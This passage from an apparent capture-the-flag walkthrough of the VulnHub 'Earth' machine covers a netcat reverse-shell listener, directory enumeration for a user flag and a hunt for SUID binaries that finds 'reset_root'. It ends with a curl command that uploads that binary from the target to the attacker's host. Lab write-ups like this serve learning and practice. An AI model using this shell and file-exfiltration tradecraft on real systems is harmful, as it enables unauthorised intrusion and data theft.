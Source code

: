 ```bash
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.4] 42196
whoami
apache
```
With this reverse shell, we can enumerate the target. Upon enumeration we will uncover the user flag in a directory under the **/var** parent directory.
```bash
pwd                                                             
/var
                                                                                                                                                                                                                                             
ls -lRa
                                                                                                                                                                           
<SNIP>
                         
./earth_web:                                                                                            
total 164                                                                                               
drwxrwxrwx.  4 root root    101 Sep 10 20:47 .                                                           
drwxr-xr-x. 22 root root   4096 Oct 12  2021 ..                                                        
-rwxrwxrwx.  1 root root 155648 Sep 10 20:47 db.sqlite3                                                
drwxr-xr-x.  3 root root    108 Oct 13  2021 earth_web                                                    
-rwxr-xr-x.  1 root root    665 Oct 11  2021 manage.py                                    
drwxr-xr-x.  6 root root    204 Oct 13  2021 secure_message                                            
-rw-r--r--.  1 root root     45 Oct 12  2021 user_flag.txt
                                                                                                                                                    
<SNIP>
```

## Post Exploitation

Once the user flag is obtained we can start enumerating the system  for any means to escalate our privileges. Two common ways we may escalate our privileges is by leveraging sudo rights or binaries with SUID bit set. Unfortunately our user doesn't belong to the sudo group but upon enumerating for executables with SUID bit set we can see an uncommon executable named reset_root.
```bash
find / -perm -4000 -exec ls -ldb {} \;
-rwsr-xr-x. 1 root root 74208 Aug  9  2021 /usr/bin/chage
<SNIP>
-rwsr-xr-x. 1 root root 24552 Oct 12  2021 /usr/bin/reset_root
-rwsr-xr-x. 1 root root 15632 Sep 29  2021 /usr/sbin/grub2-set-bootflag
<SNIP>
```
This looks like a custom executable made by the system's users. We can transfer this executable to our system to analyse its behaviour. This transfer can be done using the Python3 uploadserver module. To do this we first start a Python3 uploadserver module to listen on a port.
```bash
┌──(pentester㉿kali)-[/VulnHub/Earth/Misc Files]
└─$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Next, we use the curl command on our target to upload the file in the /upload directory of our server.
```bash
curl -X POST http://10.0.2.15:8000/upload -F 'files=@/usr/bin/reset_root'
```